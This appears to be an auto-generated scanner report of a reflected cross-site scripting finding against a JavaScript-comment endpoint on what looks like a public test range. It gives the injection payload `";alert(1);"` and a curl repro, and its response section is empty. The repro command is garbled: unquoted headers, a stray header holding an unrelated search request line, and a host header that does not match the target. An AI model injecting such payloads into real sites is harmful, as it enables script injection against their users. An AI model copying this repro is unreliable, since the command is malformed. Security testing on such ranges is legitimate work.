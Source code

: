 ## Endpoint details

- Scheme: https
- Host: public-firing-range.appspot.com
- Path: /escape/serverside/escapeHtml/js_comment
- Query keys: q

**Param:** q

**Attack:** `";alert(1);"`

## Evidence

```
";alert(1);"
```

## Repro (curl)

```bash
curl -H _line: GET https://www.google.com/search?client=firefox-b-d&q=google+firing+range HTTP/1.1 -H User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0 -H Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 -H Accept-Language: en-US,en;q=0.5 -H Connection: keep-alive "https://public-firing-range.appspot.com/escape/serverside/escapeHtml/js_comment?q=%22%3Balert%281%29%3B%22"
```

## Traffic

### Request

GET https://public-firing-range.appspot.com/escape/serverside/escapeHtml/js_comment?q=%22%3Balert%281%29%3B%22

_Headers: 12_

Headers:
- _line: GET https://www.google.com/search?client=firefox-b-d&q=google+firing+range HTTP/1.1
- host: www.google.com
- User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
- Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
- Accept-Language: en-US,en;q=0.5
- Connection: keep-alive
- Upgrade-Insecure-Requests: 1
- Sec-Fetch-Dest: document
- Sec-Fetch-Mode: navigate
- Sec-Fetch-Site: none
- Sec-Fetch-User: ?1
- Priority: u=0, i

### Response
